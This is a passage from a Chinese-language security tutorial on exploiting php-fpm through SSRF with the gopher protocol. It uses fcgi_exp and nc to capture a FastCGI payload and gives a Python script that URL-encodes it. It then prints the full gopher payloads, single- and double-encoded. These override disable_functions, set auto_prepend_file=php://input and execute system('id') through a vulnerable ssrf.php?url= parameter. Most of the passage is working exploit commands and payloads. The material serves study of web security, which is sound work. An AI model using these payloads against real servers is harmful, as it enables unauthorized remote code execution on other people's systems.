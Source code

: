 此时显然是不行的，因为在配置端口监听的时候，仅允许监听在127.0.0.1，不存在 php-fpm 未授权访问，所以说不能攻击成功。我们要通过 SSRF 来从目标机内部攻击 9000 端口。

在攻击机上使用 `nc -lvvp 1234 > fcg_exp.txt` 监听1234 端口来接收 payload，另外开启一个终端使用下面的命令发送 payload

```bash
./fcgi_exp system 127.0.0.1 1234 /var/www/html/index.php "id"
```

![image-20210501212934401](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a6fbe778f2c9abb940fbdcced49340d13501ae7a.png)

注意这里攻击的端口是上面监听的端口，目的是将payload发送到这个端口，运行后可以使用Ctrl+C 来结束运行，现在就得到了一个fcg\_exp.txt的文件，里面是获得的payload，可以使用 `xxd fcg_exp.txt` 查看其内容：

![image-20210501213005715](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-43ecf3fc0a0f070d7c5013bf967848c1c2c26dd0.png)

文件里的内容有部分是不可见字符，这里需要url编码一下，这里写一个Python脚本对文件中的内容进行编码

```python
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的python脚本生成如下payload：

```python
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%14%04%00%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Ddisable_functions%20%3D%20%0Dsafe_mode%20%3D%20Off%0Dauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%00%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0D%27%29%3B%3F%3E
```

之后我们还要对上面的payload进行二次url编码，然后将最终的payload内容放到?url=后面发送过去（这里需要进行两次编码，因为这里GET会进行一次解码，curl也会再进行一次解码）：

```python
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：

![image-20210501213240893](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0d48a3b949e0b08eb8cdcf938cd19bba26976d95.png)

### 利用 Gopherus 攻击

- 项目地址：<https://github.com/tarunkant/Gopherus>
